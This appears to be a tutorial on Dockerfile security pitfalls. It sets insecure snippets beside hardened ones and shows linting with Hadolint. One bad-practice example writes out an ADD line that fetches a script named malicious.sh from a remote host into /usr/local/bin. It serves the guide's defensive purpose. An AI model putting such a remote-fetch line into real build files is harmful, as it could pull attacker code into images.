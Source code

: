 # Dockerfile: Security Linting


## Securing the Building Block of Cloud Native Applications


## Common Security Pitfalls in Dockerfiles


### Using an Insecure Base Image


```dockerfile
# No version pinning, could introduce breaking changes or vulnerabilities
FROM ubuntu:latest  
```


```dockerfile
# Use a specific, trusted version to ensure stability and security
FROM ubuntu:22.04  
```


### Running as Root


```dockerfile
FROM node:18
WORKDIR /app
COPY . .
RUN npm install
CMD ["node", "app.js"]  # Runs as root by default
```


```dockerfile
FROM node:18
WORKDIR /app
RUN useradd -m nonrootuser
USER nonrootuser
COPY . .
RUN npm install
CMD ["node", "app.js"]
```


### Hardcoding Secrets in the Dockerfile


```dockerfile
# Hardcoded sensitive data
ENV DB_PASSWORD="SuperSecret123"  
```


```dockerfile
ARG DB_PASSWORD
ENV DB_PASSWORD=${DB_PASSWORD}
```


### Failing to Reduce the Attack Surface


```dockerfile
FROM ubuntu:22.04
RUN apt-get update && apt-get install -y \
  curl \
  vim \
  netcat \
  htop \
  iputils-ping \
  wget
```


```dockerfile
FROM alpine:3.17
RUN apk add --no-cache curl \
  && rm -rf /var/cache/apk/*
```


### Exposing Unnecessary Ports


```dockerfile
RUN apt-get update && apt-get install -y \
  apache2
# Too many ports exposed
EXPOSE 22 8080 3306 5000 80
```


```dockerfile
# Only expose the necessary port
EXPOSE 80  
```


### Not Using Multi-Stage Builds


```dockerfile
FROM golang:1.19
WORKDIR /app
COPY . .
RUN go build -o myapp .
# Development tools remain in the final image (go, git)
CMD ["./myapp"]  
```


```dockerfile
FROM golang:1.19 AS builder
WORKDIR /app
COPY . .
RUN go build -o myapp .

FROM alpine:3.17
WORKDIR /app
# Only copy the necessary artifacts from the builder image
# Leave development tools behind
COPY --from=builder /app/myapp .
CMD ["./myapp"]
```


### Not Setting Proper Permissions


```dockerfile
COPY myapp /usr/local/bin/myapp
```


```dockerfile
COPY myapp /usr/local/bin/myapp
RUN chmod 755 /usr/local/bin/myapp
```


### Overuse of `ADD` Instead of `COPY`


```dockerfile
ADD https://example.com/malicious.sh /usr/local/bin/malicious.sh
```


```dockerfile
COPY localfile /usr/local/bin/
```


## A Practical Security Linting Example with Hadolint


```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY requirements.txt .
RUN pip install -r requirements.txt
COPY . .
CMD ["python", "app.py"]
```


```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY requirements.txt .
RUN pip install -r requirements.txt
COPY . .
CMD ["python", "app.py"]
```


```Dockerfile
FROM bitnami/postgresql:17.4.0-debian-12-r1
```


```bash
# Install Hadolint
URL=https://github.com/hadolint/hadolint/releases/download/v2.12.0/hadolint-Linux-x86_64
curl -sL $URL -o /usr/local/bin/hadolint
chmod +x /usr/local/bin/hadolint
```


```bash
# Lint the menu-service Dockerfile
hadolint $HOME/RestQR/menu/Dockerfile

# Lint the qr-service Dockerfile
hadolint $HOME/RestQR/qr/Dockerfile

# Lint the menu-postgresql Dockerfile
hadolint $HOME/RestQR/postgresql/Dockerfile
```


```bash
Dockerfile:4 DL3042 warning: Avoid use of cache directory with pip. Use `pip install --no-cache-dir <package>`
```


```bash
# Find and replace
find $HOME/RestQR -type f \
    -name Dockerfile \
    -exec sed \
    -i 's/pip install -r requirements.txt/pip install --no-cache-dir -r requirements.txt/g' {} \;
```


```yaml
# $HOME/RestQR/.hadolint.yaml
ignore:
  - DL3042
```


## Dockerfile Linting Alternatives